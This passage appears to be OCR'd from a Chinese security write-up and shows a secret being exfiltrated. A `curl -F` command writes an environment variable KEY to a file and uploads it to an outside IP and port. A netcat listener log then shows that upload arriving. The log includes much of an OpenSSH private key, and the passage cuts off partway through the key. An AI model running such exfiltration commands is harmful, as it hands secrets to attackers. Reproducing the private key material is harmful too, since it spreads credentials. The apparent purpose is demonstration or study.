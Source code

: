 ```plain
`echo "${KEY}" > key && curl -v -F file=@key http://121.5.169.223:39556`
```

[![](assets/1699929835-054f913854ea5971034b2d546821663f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231109134050-8a5b337e-7ec2-1.png)

服务器上可以收到 key：

```plain
nc -lvvp 39556
Listening on [0.0.0.0] (family 0, port 39556)
Connection from 36.112.200.147 16519 received!
POST / HTTP/1.1
Host: 121.5.169.223:39556
User-Agent: curl/7.74.0
Accept: */*
Content-Length: 2805
Content-Type: multipart/form-data; boundary=------------------------ab4b01bd9df8bad8

--------------------------ab4b01bd9df8bad8
Content-Disposition: form-data; name="file"; filename="key"
Content-Type: application/octet-stream

-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAzKMQY9T7R2JBDjFuxCxQWxKI9Nf39EdewMpSYfgR4AslScEzJJX0
O3lfkq1jalL4zp066bFkU21M3p42hVgXnBrcVOR7JU3FiEFDw4qfE2CcJTXFHL4obAqFiy
cp6RxsIjRIoRz8zrBI57k8CyhqZK104xt79XDkWcDnA7lctBwq9Dq9vxsK8SqXvW4cJTu7
osoyMitO3RP3x0EYocsNNnTDNBj1JIMsfmSkOu503LFZqAuqhchKm7BcnpeOYT2qKRuFqv
BowklegCZRWZNWSVI1lGhUQQ3wDgEk0dqUPzHlOhDx4hNAeT/RXttllY+lxci00EFmjRs3
XXgculpXRs3cyC+T3Itn4rQoE5AV5191mIuwufozXCiGgFhOKfOmYe8ZHCcI09pmT2xZ9m
Cpq5VharLKHR3ku4yy3NEYZrOcNvhIfSlkFCTYV5IKXr9VcS3f+KMNrBgvEF0tEqo3sy87
1bbUInjCTViMvCS8G2uFQlnvMRiW4+FNyCcSUqpBAAAFkAzpeAEM6XgBAAAAB3NzaC1yc2
EAAAGBAMyjEGPU+0diQQ4xbsQsUFsSiPTX9/RHXsDKUmH4EeALJUnBMySV9Dt5X5KtY2pS
+M6dOumxZFNtTN6eNoVYF5wa3FTkeyVNxYhBQ8OKnxNgnCU1xRy+KGwKhYsnKekcbCI0SK
Ec/M6wSOe5PAsoamStdOMbe/Vw5FnA5wO5XLQcKvQ6vb8bCvEql71uHCU7u6LKMjIrTt0T
98dBGKHLDTZ0wzQY9SSDLH5kpDrudNyxWagLqoXISpuwXJ6XjmE9qikbharwaMJJXoAmUV
mTVklSNZRoVEEN8A4BJNHalD8x5ToQ8eITQHk/0V7bZZWPpcXItNBBZo0bN114HLpaV0bN
3Mgvk9yLZ+K0KBOQFedfdZiLsLn6M1wohoBYTinzpmHvGRwnCNPaZk9sWfZgqauVYWqyyh
0d5LuMstzRGGaznDb4SH0pZBQk2FeSCl6/VXEt3/ijDawYLxBdLRKqN7MvO9W21CJ4wk1Y
jLwkvBtrhUJZ7zEYluPhTcgnElKqQQAAAAMBAAEAAAGAResRFosWr/UqNSc+qVhavENA+C
cyWQxpm4WFUGPp95rXSrPwPXfe0tNNjFght5pR2IZwMpihpr+ZnBaCmlzW9EdZMMhAKya/
byadeJpMb9p6f1w31PJD7WZK6pifAT7s02L5zdKRri0dO89WbJmKgIujfFVPrTS9UM1QIT
2cJw3Yv0myuzEKNAxRfC+6/h3CpoRfUjTp5S+FYVcki2NNSGXsrEg6uhb3hNfuJRSEaUNP
VtNlmAAvPbKscqNlymO+u1EP9W34UDRCNqGdLZxFs651a50qmmQvTAMYHCOTFUE3ChGnEI
BGLEtsOkYKlEnQg5qQIHKLJExH0a2b0fVFrGK7dcVK3kc7xLgGwvxuFvKl4DeMgCX5q85g
02Mu9Odcsio7t6Go6sXTiB3V/Idbzcp3zbO3B76AQDzhjzTtGYONPR+aDthfnJIJhyxRJg
maE9IHWIpiWe0gzjnSs4HBGqF0F6Rr/XIbjN/53wBmyMO6eVq2wAHbRu/NEgisctfhAAAA
wQCuImeTnL8fGofb3jTAYeckTPiUsM2RsshSbwlZaX3TR4TWNu0mcc94hYButIcG2SMVXc
F4i9jl6cdgAff43uoPy8GKiGc9jF4eylky4c4fgw7EzbtFMPmpFnteA/Oh0SxlxhmUDVHU
mxRkssDSI7Zif6z2KaT3Z9yK92y/265Sm2gkIUshm2BNplgssCdIkNtqZaePBmHr6/09oJ
hRSJmmgkesx7TJ9BqVuuiZdn3E71XNHsbBOyD08cLrZEoNtjkAAADBAPKW8trXU/H85DOl
```